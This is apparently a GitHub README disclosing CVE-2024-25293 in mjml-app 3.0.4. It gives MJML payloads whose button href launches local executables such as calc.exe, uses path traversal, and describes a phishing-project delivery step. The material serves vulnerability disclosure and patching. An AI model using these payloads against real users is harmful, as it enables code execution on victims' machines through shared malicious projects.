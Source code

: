 # MJML Local Code Execution PoC

A Proof-Of-Concept for CVE-2024-25293 vulnerability. <br><br>
mjml-app v3.0.4 was discovered to contain a remote code execution (RCE)
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

### 1.Vunerability Overview:
 * Vulnerability Subject: Local Code Execution
 * Vulnerability Version: mjml-app 3.0.4-win
 * Attack Type: Remote Code Execution
 * Attack Component: In the 'mj-button' tag within the affected source code file, the 'href' attribute enables local code execution.
 * Reserved CVE Number: CVE-2024-25293

---------------------------------------

### 2. Vulnerability Cause:
*  mjml-app 3.0.4-win suffers from Security Misconfiguration In the 'mj-button' tag, which can result in arbitrary code execution.
* Exploit explain
  * Running local files through event tags in mjml applications poses a security threat. In addition, the code can be executed by combining Path Traversal within the application, requiring a patch.

Proof-of-concept (POC)
----------------------
**Step 1) The attacker creates an 'mj-button' with an 'href' tag and**
* **case 1) Code Execution with Path Traversal (notepad.exe)**
* **case 2) Code Execution (calc.exe)**

```html
<mjml>
  <mj-body>
    <mj-section>
      <mj-column>
        <mj-button background-color="#f45e43" color="white" href="C:\Users\EQST\Desktop\jruru\..\jruru_hacked.txt"> jruru </mj-button>
        <mj-button background-color="#f45e43" color="white" href="C:Windows/System32/calc.exe"> Code Execution </mj-button>
      </mj-column>
    </mj-section>
  </mj-body>
</mjml>
```
![mjml1](https://github.com/QnA4u/CVE/assets/131337101/862946a8-18f8-4d09-a850-6a296588780a)

**Step 2) The attacker creates the main phishing project with the following code.**
```py
<!-- header.mjml -->
<mj-section>
  <mj-column>
    <mj-text>This is a demo jruru</mj-text>
  </mj-column>
</mj-section>
<!-- main.mjml -->
<mj-include path="./index.mjml" />
```
![mjml2](https://github.com/QnA4u/CVE/assets/131337101/aaf108f9-a2d6-4e21-baf9-7f50266e5afa)

**Step 3) The victim opens the shared project and clicks the button, triggering the execution of payload(etc. calc , notepad)**
![mjml3](https://github.com/QnA4u/CVE/assets/131337101/a15a815f-94b8-4e20-b15f-a9d90c5dcdce)

---------------------------------------

### 3. Additional Information
Running exe files through href tags within an application is risky, and running files in combination with Path Traversal is a security concern. This allows phishing projects to be created and deployed to execute local files. Therefore, it is essential to modify this feature to prevent such execution.
